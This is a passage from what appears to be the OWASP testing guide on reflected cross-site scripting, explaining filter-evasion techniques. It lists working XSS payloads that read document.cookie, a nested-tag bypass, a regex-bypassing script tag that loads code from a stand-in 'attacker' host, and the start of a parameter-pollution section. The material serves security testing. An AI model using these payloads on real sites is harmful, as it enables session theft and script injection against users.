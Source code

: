 Following some examples:

    "><script >alert(document.cookie)</script >

    "><ScRiPt>alert(document.cookie)</ScRiPt>

    "%3cscript%3ealert(document.cookie)%3c/script%3e

#### Example 5: Bypassing non-recursive filtering

\
Sometimes the sanitization is applied only once and it is not being performed recursively. In this case the attacker can beat the filter by sending a string containing multiple attempts, like this one:

    <scr<script>ipt>alert(document.cookie)</script>

#### Example 6: Including external script

\
Now suppose that developers of the target site implemented the following code to protect the input from the inclusion of external script:

    <?
       $re = "/<script[^>]+src/i";

       if (preg_match($re, $_GET['var'])) 
       {
          echo "Filtered";
          return; 
       }
       echo "Welcome ".$_GET['var']." !";
    ?>

In this scenario there is a regular expression checking if <b>

<script [anything but the character: '>
' \] src</b> is inserted. This is useful for filtering expressions like

    <script src="http://attacker/xss.js"></script>

which is a common attack. But, in this case, it is possible to bypass the sanitization by using the “&gt;” character in an attribute between script and src, like this:

    http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT> 

This will exploit the reflected cross site scripting vulnerability shown before, executing the javascript code stored on the attacker's web server as if it was originating from the victim web site, <http://example/>.

#### Example 7: HTTP Parameter Pollution (HPP)

\
Another method to bypass filters is the HTTP Parameter Pollution, this technique was first presented by Stefano di Paola and Luca Carettoni in 2009 at the OWASP Poland conference. See the [Testing for HTTP Parameter pollution](Testing_for_HTTP_Parameter_pollution_(OTG-INPVAL-004) "wikilink") for more information. This evasion technique consists of splitting an attack vector between multiple parameters that have the same name. The manipulation of the value of each parameter depends on how each web technology is parsing these parameters, so this type of evasion is not always possible. If the tested environment concatenates the values of all parameters with the same name, then an attacker could use this technique in order to bypass pattern- based security mechanisms.\
Regular attack:
